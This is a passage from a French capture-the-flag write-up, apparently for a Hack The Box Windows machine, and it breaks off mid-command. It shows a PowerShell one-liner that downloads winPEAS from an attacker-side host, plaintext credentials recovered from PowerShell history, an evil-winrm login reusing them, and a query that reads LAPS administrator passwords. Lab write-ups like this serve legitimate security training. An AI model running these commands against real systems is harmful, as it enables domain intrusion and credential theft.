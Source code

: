 On remarque que **legacyy** fait partie du groupe _Development_. Mise à part cela, le reste semble tout à fait correct. Un des premiers réflexes après cela serait d'effectuer une énumération du domaine et une analyse par graphe par le biais de Bloodhound mais on n'a pas de mot de passe à lui fournir et l'outil ne traite pas les certificats.

Je me suis dit que c'était une box facile, alors il ne fallait pas chercher très loin, comme sur du Linux, j'essaye d'installer winpeas afin d'avoir 
de potentielles vecteurs d'attaques.

En tentant de multiples moyens de télécharger winpeas.bat j'ai trouvé ce moyen :
```(New-Object System.Net.WebClient).DownloadFile("http://10.10.14.4:8080/winPEAS.bat", "C:\Users\legacyy\Music\winpeas.bat")```

Cependant il m'est impossible d'executer le fichier à cause de l'antivirus qui tourne derrière. Je suis donc passé par la lecture de winpeas en testant les payloads intéressantes. Ce qui m'a amené à l'historique des commandes :

```
La commande de winpeas :
dir "%APPDATA%\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt" 2>nul
Ma commande :
ls C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ # %APPDATA% = C:\Users\USERNAME\AppData\Roaming
```

Nous avons en résultat ceci :

```
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```

Pour faire simple, les commandes suivantes créent un mot de passe sécurisé, l'assigne à un utilisateur du nom de `svc_deploy` puis on execute
du powershell en remote par le biais winrm en s'authentifiant en tant que `svc_deploy`.
On a du winrm, on a le nom d'utilisateur et son mot de passe, on peut donc supposément monter en privilège en se connectant sur le bureau de `svc_deploy`.

```
evil-winrm -i 10.10.11.152 -S -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV'
```

On procède de la même manière en regardant nos groupes et privilèges (via `whoami /all`) et on remarque directement que l'on fait maintenant partie 
d'un groupe nommé `LAPS_Readers`.
LAPS (Local Administrator Password Service) fournit une gestion des mots de passes des comptes locaux. Ses mots de passes sont stockés dans l'Active Directory et protégés par le biais des ACLs : seuls les utilisateurs autorisés peuvent lire les mots de passes des utilisateurs locaux.

Parfait, il nous reste donc plus qu'à lire le mot de passe de l'administrateur. La documentation de [Microsoft](https://techcommunity.microsoft.com/t5/core-infrastructure-and-security/you-might-want-to-audit-your-laps-permissions/ba-p/2280785) fournit une commande permettant d'extraire le mot de passe
du DC (de l'admin du coup) :

```
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> Get-ADComputer -Filter * -Properties MS-Mcs-AdmPwd | Where-Object MS-Mcs-AdmPwd -ne $null | FT Name, MS-Mcs-AdmPwd
